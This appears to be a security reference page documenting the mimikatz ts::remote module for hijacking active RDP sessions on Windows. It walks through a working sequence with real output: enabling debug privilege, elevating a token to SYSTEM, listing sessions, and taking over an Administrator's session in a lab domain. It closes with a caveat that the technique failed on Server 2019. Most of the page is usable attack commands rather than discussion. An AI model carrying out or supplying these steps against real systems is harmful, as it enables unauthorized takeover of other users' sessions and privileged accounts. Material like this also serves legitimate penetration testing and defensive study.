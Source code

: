 # remote

`ts::remote` can be used to perform RDP takeover/hijacking of active sessions. It has the following arguments:

* `/id`: The active RDP session id to hijack. It can be found with [`ts::sessions`](sessions.md).
* `/target`: It connects another session to the target ID, not your own/current session.
* `/password`: The password of the target RDP user. It is not required when running as `NT AUTHORITY\SYSTEM`.

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

640     {0;000003e7} 0 D 35719          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;01b55626} 2 F 30415201    hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730
(15g,26p)       Primary
 * Thread Token  : {0;000003e7} 0 D 30503948    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

```
mimikatz # ts::sessions

Session: 1 - RDP-Tcp#0
  state: Active (0)
  user : Administrator @ hacklab
  Conn : 9/25/2021 2:09:14 AM
  disc : 9/25/2021 2:09:13 AM
  logon: 9/25/2021 12:35:03 AM
  last : 9/25/2021 6:45:06 AM
  curr : 9/25/2021 6:48:11 AM
  lock : no
  addr4: 192.168.0.92

Session: *2 - RDP-Tcp#2
  state: Active (0)
  user : m3g9tr0n @ hacklab
  Conn : 9/25/2021 6:42:13 AM
  logon: 9/25/2021 6:42:15 AM
  last : 9/25/2021 6:48:11 AM
  curr : 9/25/2021 6:48:11 AM
  lock : no
  addr4: 192.168.0.92
```

```
mimikatz # ts::remote /id:1
Asking to connect from 3 to current session

> Connected to 1
```

{% hint style="warning" %}
Experiments showed the `ts::remote`, even running as `SYSTEM`, was not working against _Windows Server 2019 Standard 1809, OS Build 17763.737_. The password of the user to takeover was requested.
{% endhint %}

_(Demonstration target is a Windows Server 2016 Essentials)_
